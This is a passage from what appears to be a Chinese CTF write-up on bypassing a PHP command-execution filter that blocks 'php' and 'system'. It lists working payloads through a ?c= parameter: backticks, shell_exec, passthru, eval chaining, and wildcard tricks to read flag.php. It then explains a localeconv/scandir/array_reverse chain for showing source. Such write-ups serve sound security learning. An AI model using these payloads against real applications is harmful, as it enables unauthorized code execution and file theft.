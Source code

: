 过滤了php，system

payload：

```php
?c=echo `cat f*`;
?c=echo `tac fla''g.php`;
?c=echo shell_exec('nl fla?.php');   //shell_exec() 与反引号作用类似
?c=passthru('cat f*');
?c=eval($_GET[1]);&1=system('cat f*');
?c=`mv fla?.p?? 1.txt`;   //将flag.php 重命名为 1.txt 直接访问/1.txt得到flag
?c=`cp fla?.??? 2.txt`;  //将flag.php 复制给 2.txt
...
```

还有一种巧妙地方法

payload:

```php
?c=show_source(next(array_reverse(scandir(current(localeconv())))));
```



#### localeconv()函数

> localeconv() 函数返回一包含本地数字及货币格式信息的**数组**。

<img src="https://s2.loli.net/2022/12/23/whIDnR3yr2zXMZv.png" alt="image-20221223181323711" style="zoom:25%;" />

这个数组的第一个元素就是小数点

于是，我们可以使用 php 中 

#### current()、pos()函数

获取第一个元素的值，即小数点（.）

<img src="https://s2.loli.net/2022/12/23/oyG8zHIOnwvC3Ff.png" alt="image-20221223181508035" style="zoom:33%;" />

然后我们可以使用

#### scandir()函数

> scandir() 函数返回指定目录中的文件和目录的**数组**。

scandir('.') 代表返回当前目录下文件和目录的数组

由于题目中 flag.php  所处数组倒数第二的位置，

我们可以使用 array_reverse() 函数

#### array_reverse() 函数

> ##### 定义和用法
>
> array_reverse() 函数以相反的元素顺序返回数组。
>
> ##### 说明
>
> array_reverse() 函数将原数组中的元素顺序翻转，创建新的数组并返回。
>
> 如果第二个参数指定为 true，则元素的键名保持不变，否则键名将丢失。
